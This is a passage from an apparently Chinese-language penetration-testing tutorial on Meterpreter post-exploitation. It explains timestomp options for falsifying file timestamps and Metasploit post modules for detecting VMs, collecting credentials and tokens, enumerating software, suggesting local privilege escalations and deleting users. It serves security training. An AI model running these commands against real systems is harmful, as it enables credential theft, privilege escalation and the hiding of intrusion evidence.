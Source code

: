 ```
 -m  //修改Modified时间
 -a   //修改Accessed时间
 -c  //修改Created 时间
 -e  //修改 Entry Modified时间
 -z  //四个时间全部修改

```

例如：

```
 timestomp -z "MM/DD/YYYY HH24:MI:SS"  2.txt

```

#### <a id="POST_479"/>POST模块

一些常用的post模块<br/>
1.判断目标机是否为虚拟机

```
 run post/windows/gather/checkvm 

```

<img src="https://img-blog.csdnimg.cn/20200724192007121.png" alt=""/>

2.查看目标主机的账号和token

```
 run post/windows/gather/credentials/credential_collector 

```

3.查看目标机的安装软件

```
 run post/windows/gather/enum_applications 

```

<img src="https://img-blog.csdnimg.cn/20200724192603441.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/>

4.本地提权测试模块

假如拿到的权限并不是管理员系统权限，又不知道是否存在本地提权的漏洞，就可以选择如下模块进行测试

```
run post/multi/recon/local_exploit_suggester 

```

<img src="https://img-blog.csdnimg.cn/20200724193257495.png" alt=""/><br/>
它会自动将所有的可以测试的本地提权的漏洞走一遍，然后将可行的罗列出来。

5.删除存在的用户

```
 run post/windows/manage/delete_user USERNAME=badboy

```
